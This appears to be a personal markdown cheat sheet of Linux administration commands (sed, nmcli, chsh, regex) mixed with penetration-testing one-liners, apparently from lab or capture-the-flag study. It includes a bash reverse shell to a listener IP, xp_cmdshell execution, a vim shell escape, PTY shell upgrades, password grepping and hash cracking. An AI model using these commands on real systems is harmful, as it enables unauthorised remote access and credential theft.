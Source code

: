 systemd = most common init program in modern linux

&& = executes command if the previous command is successful

| = command1 output is used as input for command 2

; = command 2 executes after command 1 is finished

nmap  -sV :version -O :OS type -sC: Performs a script scan using the default set of scripts

regex to remember

`^` - matches beginning of the line, patches the position not the character

`$` - matches ending of the line, position not the character

smbclient -N (no passwd) -L ( look up) \\\\[ip]\\

python3 -m http.server [PORT]

xp_cmdshell "powershell -c [Command]"

type - cat equiv in powershell

winPEAS - windows vulnerability lookup

python3 -c 'import pty;pty.spawn("/bin/bash")' - Issue a functional shell through a reverse shell

find 

locate [filename]

sudo -l - see what commands you are allowed to run as sudoer

chmod +rwx [file]

export PATH]/[path]:$PATH - sets a command

/bin/sh - starts shell

zip2john - converts a zip file to file that john that crack

hashcat - dehash something

bash -c "bash -i >& /dev/tcp/10.10.15.16/443 0>&1" - issue stable shell through listener

cat * | grep -i pass* - look for password files

if given access to vim /bin/vi -> :set shell=/bin/sh  then run shell

awk '{print $5}' log.txt | cut -d';' -f2 | sort | uniq -c - sort unique of a certain column

grep -o "[0-9]\+\.[0-9]\+\.[0-9]\+\.[0-9]\+" - sort IPs

notepad++ `^(?=.*\b[VALUE]\b)(?=.*\b[VALUE]\B)(?=.*\bVALUE\b).+$` find any string in one line

snort rules
`[ACTION] [PROTOCOL] [SRC IP/IP NET] [SRC PORT] -> [DEST IP] [DEST PORT] (rule option)

`du` -disk usage 

`tee` - read from stdin and write to stdout/files

	-a -append
 
	-i -ignore interrupts
 
### SSH

ssh-copy-id - allow login from one host to another

### SED

SED performs text transformations on steams

	substitiue some text for other text
 
	remove lines
 
	append text after given lines
 
	insert text before certain lines
 
	`sed  ` `[options]/search-pattern/replacement-string/flags`
 
		flags
  
		`i` -non -case sensitive
  
		`g` -global replaces all instances instead of first
  
		`d` - remove all that match
  
	sed `[OPTIONS]`
 
		`-i[replacementfile]
  
		`-s` - first character after the s is the delimiter char
  
		`-e` - tells sed to execute each differetn commant
  
			ex. `sed -e '/char/d' -e '/char2/d'`
   
		select the address/line
  
		`sed '2 s/apache/httpd/' config`

		``

Changing the shell of the cli 

  When altering a login shell the `chsh`  commmand displays the current login shell and prompts for a new one,
  
    /bin/sh
    
    /usr/bin/tcsh
    
    /usr/bin/bash
    
    /usr/bin/ksh
    
    /usr/bin/sh
    
    /usr/bin/csh
    
`chsh` cahnges the login shell of the username

Syntax: ` chsh [options] [login] `

  -l = used to specify login shell
  
  -u = prints list of shell
  
  -s = used to set the shell as your login shell

# Networking

Linux nmcli 

  command line tool for controlling network manager
  
  `nmcli [options] OBJECT {COMMAND | HELP }
  
    OBJECT options
    
      general | networking | radio | connection | device | agent | monitor
      
  -t , terse - computer script processing as you can see the teset output
  
  -f , field - specifies what fields can bebe displayed on output
  
  -p , pretty - human readable output
  
checking overall status of network manager

  nmcli general
  
Show UUID and others

  nmcli connection show
  
Can also be used to start and stop any network interface

  nmcli con up id bond0
  
  nmcli dev disconnect bond 0

"Note" : nmcli connection down deactivates the connection without preventing auto reconnect

  Nmcli device disconnect disconnects device and prevents reactivation
  
Restarting network services

      `sudo nmcli networking off
      
        `sudo nmcli networking on `
	
Text based ui - nmtui

DHCP - dhclient [-r|release]

`userdel` - delete users

`!!` - execute most recent command

	`!*` - execute most recent command matching `[*]`
 
Disable useraccount

	`Chage -E 0`


    
